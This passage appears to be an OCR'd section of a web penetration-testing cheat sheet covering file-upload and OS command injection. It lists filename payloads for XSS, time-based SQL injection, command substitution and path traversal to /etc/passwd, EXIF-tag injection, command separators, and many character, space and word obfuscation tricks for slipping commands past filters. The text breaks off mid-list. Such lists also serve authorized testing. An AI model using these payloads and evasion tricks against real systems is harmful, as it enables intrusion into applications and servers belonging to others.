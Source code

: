             *   Reflected / Processed → XSS / SSTI / CSTI / SQL / OS / LFI
            *   `'"><img src=x onerror=alert(document.domain)>.png`
            *   `poc.js'(select*from(select(sleep(20)))a)+'.jpg`
            *   `file';select+sleep(5);--.jpg`
            *   `file$(sleep 5).png`
            *   `image.png../../../../../../../etc/passwd`
        *   [EXIF Tags](https://exiv2.org/tags.html)
            *   Metadata Reflection / Processing
            *   `convert -size 110x110 xc:white file.png`
            *   `exiftool -[TAG]="[INJECTION/BACKEND/XSS]" file.png`

### OS Injection

*   Enumeration
    *   Formatted Data Parsers
    *   PREG Replace PHP
    *   OS Input Processing → Inference of `cat` / `tar` / `curl` / `wget` / `ping` / `tee` / Argument Parsing
*   Tools
    *   `osscan() [RAW_REQUEST]`
    *   [Command Injections](https://book.hacktricks.xyz/pentesting-web/command-injection) / [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)
    *   [Argument Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Argument%20Injection) → CURL / FIND / WGET / TAR
    *   [JNDI Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md)            → Header Values + Java Logging
*   Manual
    *   Comments → End payload with `#` or `//` or Language-Specific
    *   `[INPUT][SEPARATOR][COMMAND]`
    *   `` [INPUT]`[COMMAND]` ``
    *   `[INPUT]$([COMMAND])`
    *   Commands
        *   Windows → Start Commands with `cmd /c`
        *   `whoami` / `ping` Check
        *   `echo test > [WEB_READABLE_FILEPATH]`
    *   Obfuscators
        *   [Linux](https://github.com/Bashfuscator/Bashfuscator)
        *   [Windows](https://github.com/danielbohannon/Invoke-DOSfuscation) + Kali `pwsh`
    *   Separators
        *   `;`
        *   `\n`
        *   `&`
        *   `|`
        *   `&&`
        *   `||`
    *   Char Obfuscations
        *   `/` → `echo ${PATH:0:1}`
        *   `;` → `echo ${LS_COLORS:10:1}` / `echo $(tr '!-}' '"-~'<<<:)`
        *   `\` → `echo %HOMEPATH:~6,-11%` / `$env:HOMEPATH[0]` / `echo $(tr '!-}' '"-~'<<<[)`
    *   [Space Obfuscations](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)
        *   `%20`
        *   `%09`
        *   `${IFS}`
        *   `{ls,-la}`
    *   Words Obfuscations
        *   Mix with Space/Char Obfuscations
        *   `w'h'o'am'i`
        *   `w\ho\ami`
        *   `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` / `$(a="WhOaMi";printf %s "${a,,}")`
        *   `$(rev<<<'imaohw')` 
        *   Windows
